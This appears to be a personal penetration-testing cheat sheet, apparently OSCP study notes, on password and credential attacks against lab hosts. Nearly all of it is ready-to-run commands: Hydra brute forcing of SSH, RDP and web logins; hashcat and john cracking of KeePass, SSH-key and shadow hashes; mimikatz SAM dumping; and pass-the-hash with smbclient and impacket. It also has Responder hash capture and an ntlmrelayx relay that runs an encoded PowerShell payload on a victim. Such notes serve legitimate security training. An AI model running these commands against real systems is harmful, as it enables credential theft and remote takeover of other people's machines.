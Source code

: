 # Password spray
## Random Generator
- CeWL (Can base on website info) ``` cewl --lowercase http://192.168.233.61:8081/ | grep -v CeWL  >> custom-wordlist.txt ```

## Hydra
- ssh
- ``` hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201  ```
- rdp
- ``` hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202 ```
- port: add ``` -s ```

- care 302 redirect
- HTTP POST Form
  ``` hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" ```
- HTTP Base64 POST FORM
  ```
    # -I : ignore any restore files
    # -f : stop when a login is found
    # -L : username list
    # -P : password list
    # ^USER64^ and ^PASS64^ tells hydra to base64-encode the values
    # C=/ tells hydra to establish session cookies at this URL
    # F=403 tells hydra that HTTP 403 means invalid login
    hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
  ``` 
- HTTP GET
  ``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.152.201 http-get "/index.php" ```


## PDF Crack
- ``` pdfcrack -f Infrastructure.pdf -w /usr/share/wordlists/rockyou.txt ```

## Cracking with Hashcat
- Work w/ mutated password list (rockyou/other list)
- hashcat rule explained: [https://github.com/zh54321/hashcat_rule_gen ](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- writing rule to xx.rule ``` $1 $2 $3 c $!  ``` 
- running crack ``` hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r xx.rule --force  ```
- sometimes use fasttrack.txt too
- ``` c ``` in rule = captilized letter
- ``` u d ``` in rule = upper all char & duplicated once

- Hash mode: https://hashcat.net/wiki/doku.php?id=example_hashes
- Hash type analyzer: https://www.tunnelsup.com/hash-analyzer/ 

## Password manager 
- e.g. keepass
- Find all .kdbx database ``` Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue ```
- translate .kdbx to .hash ``` keepass2john Database.kdbx > keepass.hash ```
- trim unwanted text e.g. $database: 
- using hashcat func w/ keepass lib ``` hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force -n 20``` 

## SSH Passphrase
- DONT GRANT TOO MUCH RIGHTS TO id_rsa | 600 is enough
- can get id_rsa , still need crack paraphase
- using ssh2john
- trim hash e.g. id_rsa:
- ``` hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force ```

**
- possible to dump thru ``` ./50383.sh target.txt /home/alfred/.ssh/id_rsa ```
- For ecdsa ssh-keygen private key name: ``` id_ecdsa ```

## john
- etc/shadow: https://erev0s.com/blog/cracking-etcshadow-john/ 
- ecdsa/rsa(ssh): https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/
- if some pre-defined module not work, use john directly
- ssh to john for john eat ``` ssh2john id_rsa>xx.hash``` (Remember copy Beign --- Private key to --- End private key)
- create new rule to john.conf ``` sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'```
- run it ``` john --wordlist=ssh.passwords --rules=sshRules ssh.hash ```
- [EASY] OR without rules ``` john --wordlist=/usr/share/wordlists/rockyou.txt xx.hash ``` 
### No password hashes loaded (see FAQ)
1. ``` john wordlist=xxx --format=crypt unshadow.txt ```

# NTLM v1
- More like high priv users
## Brute force NTLM (Windows) MUST USE POWERSHELL!!!
- Target get from window SAM
- find all users ``` Get-LocalUser ```
- w/ mimikatz (need access)
- check oscp cheat sheet for more commands
- ``` token::elevate ``` esculate to system
- get all token ``` lsadump::sam ``` & find the user + hash ntlm u want to breach
- hashcat: ``` hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force ```

## Non-crack way | Pass NTLM to another service
### SMB server 
- sometimes smb server 1 same passwod = server 2, then it works w/ using same NTLM-hash


### leveragable tools w/ hash
- https://www.hackingarticles.in/remote-code-execution-using-impacket/ 
1. smbclient
   - ``` smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b ```
   - 
2. CrackMapExec
3. impacket_
4. psexec.py (shell with system identity)
5. wmiexec.py (shell with admin identity)
   - rmb add 32 zeros before the hash 
   - ``` impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212 ```

# NTLM v2
- More like unpriv users
## Crack
- ``` net user xxx``` see if can rdp
- ``` sudo responder -I tun0 ``` rogue receiver to dump request from http , smb etc
- ``` dir \\LHOST\test ``` to post hash NTLM
- NTLM v2 Hash crack

## Skill of including filename of smb for HTTP server load uploaded file
- change file name to ``` \\\\LHOST\\share\file.name ```
- Trigger call NTLM hash

## Forwarding the hash instill of crack since too hard
- relay server for NTLM ``` impacket-ntlmrelayx --no-http-server -smb2support -t {target vicim ip} -c "powershell -enc JABjAGwAaQBlAG4AdA..." ```
- use victim A to connect our rogue impacket server by dir \\xx\y
- watch shell if have thing come

## Password decrypter (for weak hash)
1. MD5  https://md5decrypt.net/en/